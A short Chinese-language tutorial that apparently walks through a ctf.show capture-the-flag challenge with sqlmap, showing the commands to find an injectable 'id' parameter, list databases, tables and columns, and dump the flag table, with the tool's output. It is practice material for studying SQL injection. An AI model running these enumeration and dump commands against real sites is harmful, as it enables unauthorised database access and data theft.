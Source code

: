 # sqlmap使用

<br>

* 常用参数


````
常用参数
--dbs 所有数据库
--tables 所有表
--columns 所有列

````

<br>

### 第一步：开始脚本注入

<br>


* 使用sqlmap -u url来进行注入

例：

sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id="

<br>

### 第二步：查表

执行上述命令后得到注入成功的回显然后可以进行查库操作

<br>

如上述命令执行后得到

````

available databases [7]:                                                                                                                                                                                    
[*] ctfshow
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test

````

<br>

* 接下来可以查看指定库的所有表：sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow --tables

* 得到回显
````

Database: ctfshow
[1 table]
+------+
| flag |
+------+

````

* 到这里就说明查询到表flag了，接下来使用: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --columns

````

Database: ctfshow                                                                                                                                                                                           
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
| id     | int(11)      |
+--------+--------------+


````

* 接下来使用直接dump出来: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --dump

````
Database: ctfshow
Table: flag
[1 entry]
+----+-----------------------------------------------+
| id | flag                                          |
+----+-----------------------------------------------+
| 1  | ctfshow{cd6650cb-4523-49ee-8251-bcbf145e920c} |
+----+-----------------------------------------------+
````